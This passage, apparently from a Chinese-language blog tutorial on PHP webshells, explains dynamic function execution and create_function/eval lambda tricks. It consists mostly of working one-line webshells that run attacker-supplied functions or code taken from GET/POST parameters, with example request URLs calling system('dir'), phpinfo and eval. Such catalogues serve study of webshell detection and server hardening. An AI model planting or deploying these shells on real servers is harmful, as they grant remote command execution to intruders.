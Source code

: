 > http://www.cnblogs.com/LittleHann/p/3665062.html&#x20;

### 0x13: 动态函数执行

```php
<?php
    $dyn_func = $_GET['dyn_func'];
    $argument = $_GET['argument'];
    $dyn_func($argument);
?>
# http://localhost/shell/index.php?dyn_func=system&argument=dir
```

如果目标服务器开启了: register\_globals=on&#x20;

则webshell还可以这么写

```php
<?php
    $dyn_func($argument);
?>
# http://localhost/shell/index.php?dyn_func=system&argument=dir
```

但是register\_globals这个选项在PHP5.0以后就取消了，即不管php.ini中写On还是Off都没有任何意义

### 0x14: PHP动态创建匿名函数(Lamda表达式)

了动态变量直接动态执行函数，PHP还允许使用[`create_function`](http://cn2.php.net/manual/zh/function.create-function.php)动态的进行"匿名函数(Lamda)"的创建

```php

# string create_function ( string $args , string $code )
<?php
    $foobar = $_GET['foobar'];
    $dyn_func = create_function('$foobar', "echo $foobar;");
    $dyn_func('');
?>
# http://localhost/shell/index.php?foobar=system('dir')
# http://localhost/shell/index.php?foobar=eval('phpinfo();')
# http://localhost/test/test.php?foobar=eval("$_POST[1]") 
```

动态函数的另一种写法：

```php
<?php
    eval("function lambda_n() { echo system('dir'); }");
    lambda_n();
?>
```

```php
<?php
    eval("function lambda_n() { eval($_GET[1]); }");
    lambda_n();
?>
# http://localhost/shell/index.php?1=phpinfo()
```
